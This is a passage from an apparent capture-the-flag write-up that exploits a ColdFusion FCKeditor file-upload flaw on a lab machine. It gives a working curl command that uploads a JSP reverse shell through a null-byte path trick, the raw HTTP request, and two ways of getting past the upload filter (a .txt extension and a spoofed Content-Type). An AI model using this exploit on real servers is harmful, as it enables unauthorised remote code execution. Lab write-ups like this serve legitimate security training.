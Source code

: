 #### Upload Reverse Shell

I can recreate this exploit with `curl`:



    root@kali# curl -X POST -F newfile=@shell.jsp 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'


                    <script type="text/javascript">
                            window.parent.OnUploadCompleted( 202, "", "shell.jsp", "0" );
                    </script>



Once that finishes, there's a new folder at the root:

![](/img/image-20200513094548902.png)

But there's no file in `/userfiles/file/`. I must have hit some filter.
My request looks like:



    POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00 HTTP/1.1
    Host: 10.10.10.11:8500
    User-Agent: curl/7.68.0
    Accept: */*
    Content-Length: 1700
    Content-Type: multipart/form-data; boundary=------------------------2cf8346e8d23a757
    Expect: 100-continue
    Connection: close

    --------------------------2cf8346e8d23a757
    Content-Disposition: form-data; name="newfile"; filename="shell.jsp"
    Content-Type: application/octet-stream

    <%@page import="java.lang.*"%>
    <%@page import="java.util.*"%>
    <%@page import="java.io.*"%>
    <%@page import="java.net.*"%>
    ...[snip]...



There's two things I need to set to get this upload to work, and both
are set in the MSF exploit. First, I can't have the filename end in
`jsp`. That will be filtered out. The MSF script uses `.txt`, so I'll
mimic that by making a copy of my payload named `shell.txt`. The MSF
script also sets the `Content-Type` on the file to
`application/x-java-archive`.
